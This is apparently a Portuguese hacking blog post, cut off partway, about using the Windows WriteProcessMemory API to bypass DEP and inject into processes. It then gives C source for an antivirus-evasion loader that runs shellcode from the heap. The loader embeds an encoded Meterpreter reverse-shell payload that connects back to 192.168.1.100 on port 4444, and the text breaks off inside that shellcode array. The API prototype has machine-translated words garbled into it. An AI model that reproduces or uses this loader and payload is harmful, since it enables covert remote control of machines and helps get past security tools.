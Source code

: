 <p>vem de msdn --> http://msdn.microsoft.com/en-us/library/ms681674(VS.85).aspx, lol.</p>
<pre class="code">
BOOL WINAPI WriteProcessMemory (
  __in SEGURAR hProcess,
  __in LPVOID lpBaseAddress,
  __in LPCVOID lpBuffer,
  __in service size_t,
  __out size_t * lpNumberOfBytesWritten
);
</pre>
<p>Esta função permite que você copie seu shellcode para outro (executável) local para que você possa acessá-la e executá-la. Durante a cópia, WPM () irá garantir que o local de destino é marcado como gravável. Você só tem que ter certeza do destino alvo é executável.Esta função requer seis parâmetros na pilha, WriteProcessMemory () oferece funcionalidade DEP-bypass para múltiplos  cenários de exploração. Na situação em que um palpite decente pode ser feito para  a localização de shellcode, esta função revela-se um único conveniente  solução hop. Mesmo quando o local de shellcode é indeterminado, contanto  como espaço de pilha está disponível para cadeia vários retornos, WriteProcessMemory () é muito útil, também serve para outras coisa que veremos em breve :D.</p>
<p>A ideia de usar essa API é simples pode nos permite copiar o shellcode para uma região de memória com EXECUTAR atributos Depois poderemos saltar para ele O local de destino deve ser gravável e executável, e já que toquei no assunto andei lendo algumas coisas sobre o powershell do windows e da pra fazer uma infinidade de coisas achei um blog de um pesquisador bem conhecido e parece que me returnou uma luz , até o projeto do colbatstrike feito pelo Raphael a evolução que ele criou do meterpreter ainda em desenvolvimento, voltando ao assunto http://www.exploit-monday.com/2012/05/accessing-native-windows-api-in.html esse é o blog tem algumas coisa que pode ajudar a compreensão de como usar as API nativa do windows. Essa API também é muito usada para fazer injetion process, caso ele tenha reservado maior quantidade na memoria podemos até executar outro file ou até mesmo ganhar o controle da aplicação basicamente muito idêntico ao migrate do meterpreter, penso em escreve sobre ele em breve como criar alguns script usando ruby.</p>
{% highlight c++ %}
#include <windows.h>
/*
------------------------------------------------
Autor: Mharcos Nesster (mh4x0f)  
Email:mh4root@gmail.com
 Greetx: Team P0cL4bs {N4sss, Chrislley, MovCode, Joridos , MMXM }
 github: https://github.com/P0cL4bs/HeapExecShellcode
bypass AV em C  and Assembly.
Shellcode execute Heap
-----------------------------------------------
*/
//section code permission to read to wite
#pragma section(".code",execute, read, write)
#pragma section(".codedata", read, write)
// secton native application
#pragma comment(linker,"/MERGE:.codedata=.code")
// rewrite memory
#pragma comment(linker,"/SECTION:.code,ERW")
// onde fica todas variável globais :D
//  all variable global   
#pragma data_seg(".codedata")
#pragma const_seg(".codedata")
#pragma code_seg(".code")


/* meterpreter 192.168.1.100 port 4444  encoded shikata_ga_nai 10 */
unsigned char shellcode[] =
"\xb8\xca\x31\x30\xe8\xda\xdf\xd9\x74\x24\xf4\x5a\x33\xc9\xb1"
"\x86\x31\x42\x13\x83\xc2\x04\x03\x42\xc5\xd3\xc5\x33\x1b\xca"
"\x52\xe0\x6f\x52\xe0\xd4\x57\xcd\x48\x0e\xae\xbf\x0c\x61\x4d"
"\xd9\x71\x44\xa9\xda\x08\x52\x29\x15\x91\x69\xe6\x66\x23\xfd"
"\x5e\x9a\xce\xb5\x52\xc6\x16\xc8\xf7\x2b\x86\x17\xcf\xfd\xcd"
"\x9a\xbe\xc2\xb8\x2b\x95\xd5\xc4\xba\xc8\x41\xea\x78\x3a\x9e"
"\x81\x9d\xb5\xce\xea\xc2\xa9\xb5\x2d\xe2\x09\x32\xe3\x4f\xcf"